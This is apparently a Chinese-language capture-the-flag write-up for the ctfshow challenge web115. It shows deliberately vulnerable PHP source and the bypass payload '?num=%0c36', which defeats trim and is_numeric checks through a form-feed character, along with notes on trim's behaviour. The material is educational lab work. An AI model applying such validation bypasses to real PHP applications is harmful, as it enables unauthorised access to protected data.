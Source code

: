 伪协议直接读

![image-20220812181006061](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121810136.png?x-oss-process=hzy)

# web115

```
<?php
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
} hacker!!!
```

trim函数的绕过+is_numeric绕过

```
?num=%0c36
```

![image-20220812181315997](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121813083.png?x-oss-process=hzy)


> 知识点补充
>
> ```
> trim(string,charlist)
> 语法：
> 
> 参数	               描述
> string	        必需。规定要检查的字符串。
> charlist	    可选。规定从字符串中删除哪些字符。如果省略该参数，则移除下列所有字符：
> 
> "\0"       - NULL
> "\t"       - 制表符
> "\n"       - 换行
> "\x0B"     - 垂直制表符
> "\r"       - 回车
> " "        - 空格
> 
> ```
>
> trim+is_numeric之后留下的只有+ - . 和%0c，其中%0c是换页符
